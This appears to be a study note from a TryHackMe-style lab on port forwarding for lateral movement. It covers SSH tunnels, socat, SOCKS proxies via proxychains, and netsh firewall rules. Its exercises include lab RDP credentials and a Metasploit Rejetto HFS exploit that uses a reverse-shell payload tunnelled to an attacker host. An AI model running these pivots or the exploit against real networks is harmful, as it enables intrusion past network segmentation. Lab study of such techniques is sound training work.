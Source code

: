 # Port Forwarding Techniques

Most lateral movement techniques require specific ports to be available for an attacker. In real-world networks, administrators may block some of these ports for security reasons or implement network segmentation, preventing access to SMB, RDP, WinRM, or RPC ports.

To bypass these restrictions, port forwarding techniques can be used. These techniques involve using a compromised host as a jump box to pivot to other hosts. Some machines may have more network permissions than others, depending on their roles and network service requirements.

---

## SSH Tunneling

SSH has built-in functionality for port forwarding through SSH Tunneling. While SSH was traditionally associated with Linux systems, Windows now ships with the OpenSSH client by default, making it widely available.

### SSH Remote Port Forwarding

Remote port forwarding allows a reachable port from the SSH client (e.g., PC-1) to be projected into a remote SSH server (e.g., the attacker's machine). For example:

```bash
C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```

This command forwards port 3389 on the server to the attacker's machine through PC-1. The `-R` switch specifies remote port forwarding, and the `-N` switch prevents requesting a shell.

### SSH Local Port Forwarding

Local port forwarding "pulls" a port from an SSH server into the SSH client. For example:

```bash
C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```

This command forwards port 80 from the attacker's machine to PC-1. A firewall rule may be required to allow incoming connections:

```bash
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

---

## Port Forwarding with `socat`

`socat` can be used for port forwarding when SSH is unavailable. For example:

```bash
socat TCP4-LISTEN:1234,fork TCP4:1.1.1.1:4321
```

To forward port 3389 on the server using PC-1 as a pivot:

```bash
C:\> socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389
```

A firewall rule may be needed:

```bash
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

---

## Dynamic Port Forwarding and SOCKS

Dynamic port forwarding allows scanning multiple ports or hosts through a pivot host using a SOCKS proxy. For example:

```bash
C:\> ssh tunneluser@1.1.1.1 -R 9050 -N
```

Configure `proxychains` to use the SOCKS proxy:

```plaintext
[ProxyList]
socks4  127.0.0.1 9050
```

Run commands through the proxy:

```bash
proxychains curl http://pxeboot.za.tryhackme.com
```

---

## Practical Exercises

### Exercise 1: Forwarding RDP with `socat`

On `THMJMP2`, forward the RDP port to make it accessible from the attacker's machine:

```bash
C:\tools\socat\> socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389
```

Connect via RDP:

```bash
xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```

### Exercise 2: Exploiting Rejetto HFS

Forward ports for the exploit:

```bash
C:\> ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

Configure Metasploit:

```bash
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```